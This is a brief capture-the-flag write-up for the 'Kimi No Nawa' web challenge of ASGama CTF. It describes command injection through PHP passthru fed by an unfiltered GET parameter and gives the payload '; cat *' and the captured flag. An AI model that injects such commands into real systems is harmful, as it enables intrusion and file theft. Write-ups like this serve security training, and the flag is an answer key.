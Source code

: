 # __ASGama CTF__ 
## _Kimi No Nawa_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Web | 50 | l0l

**Description:** 

> ctf.asgama.web.id:40110
>
> [source](./kiminonawa_source.txt)

### Kimi No Nawa
RCE injection melalui passthru dengan variable $_GET tanpa filter.

### Payload
```
; cat *
```

### Result
```
GamaCTF{r3m0t3_c0d3_ex3cut10n} 
```

### Flag
GamaCTF{r3m0t3_c0d3_ex3cut10n} 